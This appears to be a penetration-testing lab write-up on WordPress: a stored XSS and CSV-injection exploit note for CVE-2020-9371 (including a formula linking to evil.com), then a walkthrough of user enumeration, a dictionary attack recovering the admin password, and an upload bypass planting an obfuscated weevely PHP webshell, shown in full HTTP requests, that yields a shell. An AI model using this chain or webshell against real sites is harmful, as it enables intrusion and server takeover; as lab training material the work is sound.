<u>WordPress Appointment Booking Calendar plugin (before 1.3.35) is vulnerable to Stored Cross-Site Scripting documented in CVE-2020-9371</u>.

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "admin"
- Password: "password1".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution





`searchsploit 'appointment booking calendar'`:
```
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Appointment Booking Calendar 1.3.34 - CSV Injection📌         | php/webapps/48204.txt
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/48204.txt ./`

`cat ./48204.txt`:
```
# Exploit Title: Wordpress Plugin Appointment Booking Calendar 1.3.34 - CSV Injection📌
# Google Dork: N/A
# Date: 2020-03-05
# Exploit Author: Daniel Monzón (stark0de)
# Vendor Homepage: https://www.codepeople.net/
# Software Link: https://downloads.wordpress.org/plugin/appointment-booking-calendar.zip
# Version: 1.3.34📌
# Tested on: Windows 7 x86 SP1
# CVE : CVE-2020-9371, CVE-2020-9372

----Stored Cross-Site-Scripting-------------------

1) In http://127.0.0.1/wordpress/wp-admin/admin.php?page=cpabc_appointments.php📌
2) Calendar Name=<script>alert(0)</script> and Update📌
3) Click in any of the other tabs

----CSV injection---------------------------------

1) First we create a new calendar (Pages, add new, booking calendar) and Publish it (we can now log out)
2) Then we go to the page and introduce data, and the payload:

New booking:

Name: IMPORTANT DATA
Description: http://evil.com/evil.php

New booking:

Name: test
Description: =HYPERLINK(K2;H2)

This is the way it would work if i had a business registered and the payment was completed it can also be done by adding the new bookings with the same data from the admin panel

3) Then we go to Bookings List and export the CSV file
4) After that we open the file, and import data from an external file, using comma as separator
5) Hyperlink to malicious PHP file is inserted and the user clicks on it, user is redirected to a fake login page (for example)

Tested on Windows 7 Pro SP1 32-bit, Wordpress 5.3.2 and Excel 2016
```





---

## WordPress Black-Box Penetration Testing

### WordPress Black-Box Pentest

#### Lab Environment

**Exploiting WordPress**

In this lab, <u>you will learn how to perform a dictionary attack to get admin access on a WordPress-based website and gain shell access on the target machine by exploiting a vulnerable WordPress plugin</u>.

In this lab environment, the user will get access to a Kali GUI instance. The WordPress web application can be accessed using the tools installed on Kali on `http://demo.ine.local`.

**Objective:** <u>Gain admin access on the WordPress website. Also obtain a shell on the target machine and get the flag file from the target machine</u>.

Dictionary attack wordlist: `/root/Desktop/wordlists/100-common-passwords.txt`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.231.193.2📌 netmask 255.255.255.0  broadcast 192.231.193.255
        ether 02:42:c0:e7:c1:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1376 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p80,443 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:46 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000067s latency).

PORT    STATE  SERVICE VERSION
80/tcp  open   http    Apache httpd 2.4.18 ((Ubuntu))📌
443/tcp closed https
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.06 seconds
```

`sudo nmap -sSV -p80 --script=http-wordpress-users --script-args limit=50 192.231.193.3`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-06 17:47 IST
Nmap scan report for demo.ine.local (192.231.193.3)
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-wordpress-users: 
| Username found: admin📌
|_Search stopped at ID #50. Increase the upper limit if necessary with 'http-wordpress-users.limit'
MAC Address: 02:42:C0:E7:C1:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
```

`wpscan --url http://192.231.193.3/ --enumerate u`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Enumerating Users (via Passive and Aggressive Methods)📌
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:📌

[+] admin📌
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.231.193.3/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 17:48:25 2024
[+] Requests Done: 50
[+] Cached Requests: 11
[+] Data Sent: 12.146 KB
[+] Data Received: 407.973 KB
[+] Memory used: 182.781 MB
[+] Elapsed time: 00:00:03
```

`wpscan --url http://192.231.193.3/ -U 'admin' -P /root/Desktop/wordlists/100-common-passwords.txt`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Performing password attack on Wp Login against 1 user/s📌
[SUCCESS] - admin / lawrence                                                                                                                          
Trying admin / chloe Time: 00:00:00 <==========                                                                     > (15 / 115) 13.04%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: lawrence🔑

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 17:50:54 2024
[+] Requests Done: 158
[+] Cached Requests: 39
[+] Data Sent: 41.198 KB
[+] Data Received: 144.14 KB
[+] Memory used: 227.91 MB
[+] Elapsed time: 00:00:06
```





`searchsploit 'wordpress responsive thumbnail slider'`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Responsive Thumbnail Slider - Arbitrary File Upload (Metasploit)                                   | php/remote/45099.rb
WordPress Plugin Responsive Thumbnail Slider 1.0 - Arbitrary File Upload📌                                          | php/webapps/37998.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/37998.txt ./`

`cat ./37998.txt`:
```
# Exploit Title: Wordpress Responsive Thumbnail Slider Arbitrary File Upload📌
# Date: 2015/8/29
# Exploit Author: Arash Khazaei
# Vendor Homepage:
https://wordpress.org/plugins/wp-responsive-thumbnail-slider/
# Software Link:
https://downloads.wordpress.org/plugin/wp-responsive-thumbnail-slider.zip
# Version: 1.0
# Tested on: Kali , Iceweasel Browser
# CVE : N/A
# Contact : http://twitter.com/0xClay
# Email : 0xclay@gmail.com
# Site : http://bhunter.ir

# Intrduction :

# Wordpress Responsive Thumbnail Slider Plugin iS A With 6000+ Active
Install
# And Suffer From A File Upload Vulnerability Allow Attacker Upload Shell
As A Image.📌
# Authors, Editors And Of Course Administrators This Vulnerability To Harm
WebSite.

# POC :

# For Exploiting This Vulnerability :

# Go To Add Image Section And Upload File By Self Plugin Uploader📌
# Then Upload File With Double Extension Image📌
# And By Using A BurpSuite Or Tamper Data Change The File Name From
Shell.php.jpg To Shell.php📌
# And Shell Is Uploaded . :)


<!-- Discovered By Arash Khazaei (Aka JunkyBoy) -->
```

`weevely generate 'password123' ./weevely_shell.php.jpg`:
```
Generated './weevely_shell.php.jpg' with password 'password123' of 764 byte size.
```



`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /wp-admin/admin.php?page=responsive_thumbnail_slider_image_management&action=addedit📌 HTTP/1.1
Host: 192.231.193.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------264397062817860207842305957104
Content-Length: 1481
Origin: http://192.231.193.3
Connection: close
Referer: http://192.231.193.3/wp-admin/admin.php?page=responsive_thumbnail_slider_image_management&action=addedit
Cookie: wordpress_=admin%7C1733661048%7CzTOjGfXW9UlcDjWFi1xilwDOe95p7eFAopTYsGdoMQ6%7C96920eaac04afcc043b8138be104ad5a26d9457d116f1793c0636bbf111e677f; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_=admin%7C1733661048%7CzTOjGfXW9UlcDjWFi1xilwDOe95p7eFAopTYsGdoMQ6%7C7ffd20432c4e275d860b1d9ee423f3f7c8222d8a39c5ab5b6f07aa3e048e858a; wp-settings-time-1=1733488496
Upgrade-Insecure-Requests: 1

-----------------------------264397062817860207842305957104
Content-Disposition: form-data; name="image_name"; filename="weevely_shell.php.jpg"📌
Content-Type: image/jpeg📌

<?php
$b='^$k{$j};}}rC5eturn $o;}iC5f (@pregC5_match(C5"/$kh(C5C5.+)C5C5$kf/",@file_gC5C5et_';
$Z='C5C5P3y";C5fuC5nction x($t,C5C5$k){$c=strlen($k)C5;$l=sC5trleC5nC5($C5t);$o="";for(';
$v='$i=0C5C5;$iC5<$l;)C5{for($j=C50;($j<$c&&$i<$C5l);$jC5++,$C5i+C5+)C5{$C5o.=$t{$i}C5';
$f='coC5ntentC5s("php://input"),$m)==C5C51) {C5C5@ob_startC5();@evC5al(@C5gzC5uncompress(';
$c=str_replace('T','','TcrTeatTe_fTTunTction');
$S='$k="48C52cC5811d"C5;$kh="C5a5d5b4bc6d49C5";$kf="C57C5ffa98491C5e38";$p="C5qHc0a8ZC5ZQ4l04';
$i='C5an()C5;$r=@base6C54C5_encode(@xC5(@gC5zcompC5reC5ss($o),$kC5))C5C5;print("$p$kh$r$kf");}';
$Y='@x(@baseC564_decC5oC5de(C5$C5m[1]),$k)));$oC5=@ob_get_coC5nC5tentsC5();@ob_end_cle';
$y=str_replace('C5','',$S.$Z.$v.$b.$f.$Y.$i);
$r=$c('',$y);$r();
?>

[...]
```
`HTTP Request`:
```http
POST /wp-admin/admin.php?page=responsive_thumbnail_slider_image_management&action=addedit📌 HTTP/1.1
Host: 192.231.193.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------264397062817860207842305957104
Content-Length: 1481
Origin: http://192.231.193.3
Connection: close
Referer: http://192.231.193.3/wp-admin/admin.php?page=responsive_thumbnail_slider_image_management&action=addedit
Cookie: wordpress_=admin%7C1733661048%7CzTOjGfXW9UlcDjWFi1xilwDOe95p7eFAopTYsGdoMQ6%7C96920eaac04afcc043b8138be104ad5a26d9457d116f1793c0636bbf111e677f; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_=admin%7C1733661048%7CzTOjGfXW9UlcDjWFi1xilwDOe95p7eFAopTYsGdoMQ6%7C7ffd20432c4e275d860b1d9ee423f3f7c8222d8a39c5ab5b6f07aa3e048e858a; wp-settings-time-1=1733488496
Upgrade-Insecure-Requests: 1

-----------------------------264397062817860207842305957104
Content-Disposition: form-data; name="image_name"; filename="weevely_shell.php"📌
Content-Type: image/jpeg📌

<?php
$b='^$k{$j};}}rC5eturn $o;}iC5f (@pregC5_match(C5"/$kh(C5C5.+)C5C5$kf/",@file_gC5C5et_';
$Z='C5C5P3y";C5fuC5nction x($t,C5C5$k){$c=strlen($k)C5;$l=sC5trleC5nC5($C5t);$o="";for(';
$v='$i=0C5C5;$iC5<$l;)C5{for($j=C50;($j<$c&&$i<$C5l);$jC5++,$C5i+C5+)C5{$C5o.=$t{$i}C5';
$f='coC5ntentC5s("php://input"),$m)==C5C51) {C5C5@ob_startC5();@evC5al(@C5gzC5uncompress(';
$c=str_replace('T','','TcrTeatTe_fTTunTction');
$S='$k="48C52cC5811d"C5;$kh="C5a5d5b4bc6d49C5";$kf="C57C5ffa98491C5e38";$p="C5qHc0a8ZC5ZQ4l04';
$i='C5an()C5;$r=@base6C54C5_encode(@xC5(@gC5zcompC5reC5ss($o),$kC5))C5C5;print("$p$kh$r$kf");}';
$Y='@x(@baseC564_decC5oC5de(C5$C5m[1]),$k)));$oC5=@ob_get_coC5nC5tentsC5();@ob_end_cle';
$y=str_replace('C5','',$S.$Z.$v.$b.$f.$Y.$i);
$r=$c('',$y);$r();
?>

[...]
```



`curl -s http://192.231.193.3/wp-content/uploads/wp-responsive-images-thumbnail-slider/4210afcda07423dd33393c6623429af2.php`:
```
```

`weevely http://192.231.193.3/wp-content/uploads/wp-responsive-images-thumbnail-slider/4210afcda07423dd33393c6623429af2.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     192.231.193.3
[+] Session:    /root/.weevely/sessions/192.231.193.3/4210afcda07423dd33393c6623429af2_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
www-data@demo.ine.local:/var/www/html/wp-content/uploads/wp-responsive-images-thumbnail-slider $
```

---
---
